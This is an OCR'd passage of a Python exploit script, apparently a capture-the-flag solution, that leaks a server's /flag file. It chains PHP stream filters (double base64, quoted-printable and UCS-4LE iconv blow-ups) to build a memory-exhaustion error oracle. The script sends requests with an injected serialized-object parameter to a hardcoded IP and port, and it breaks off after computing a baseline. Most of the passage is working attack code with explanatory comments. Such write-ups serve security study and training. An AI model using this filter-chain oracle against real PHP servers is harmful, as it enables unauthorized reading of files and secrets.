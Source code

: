 ```python
So now we can verify if the first character is in A-Fa-f0-9. The rest of the challenge is a descent  
into madness trying to figure out ways to:  
- somehow get other characters not at the start of the flag file to the front  
- detect more precisely which character is at the front  
"""  
  
  
def join(*x):  
    return '|'.join(x)  
  
  
def err(s):  
    print(s)  
    raise ValueError  
  
  
def req(s):  
    data = {  
        '0': f'php://filter/{s}/resource=/flag'  
    }  
    return requests.get('http://123.57.73.24:44211/index.php?my[secret.flag=C:8:"Saferman":0: {}&secret='+f'php://filter/{s}/resource=/flag').status_code == 500  
  
  
"""  
Step 1:  
The second step of our exploit only works under two conditions:  
- String only contains a-zA-Z0-9  
- String ends with two equals signs  
  
base64-encoding the flag file twice takes care of the first condition.  
  
We don't know the length of the flag file, so we can't be sure that it will end with two equals  
signs.  
  
Repeated application of the convert.quoted-printable-encode will only consume additional  
memory if the base64 ends with equals signs, so that's what we are going to use as an oracle here.  
If the double-base64 does not end with two equals signs, we will add junk data to the start of the  
flag with convert.iconv..CSISO2022KR until it does.  
"""  
  
blow_up_enc = join(*['convert.quoted-printable-encode'] * 1000)  
blow_up_utf32 = 'convert.iconv.L1.UCS-4LE'  
blow_up_inf = join(*[blow_up_utf32] * 50)  
  
header = 'convert.base64-encode|convert.base64-encode'  
  
# Start get baseline blowup  
print('Calculating blowup')  
baseline_blowup = 0  
for n in range(100):  
    payload = join(*[blow_up_utf32] * n)  
    if req(f'{header}|{payload}'):  
        baseline_blowup = n  
        break  
else:  
    err('something wrong')  
  
print(f'baseline blowup is {baseline_blowup}')  
  
```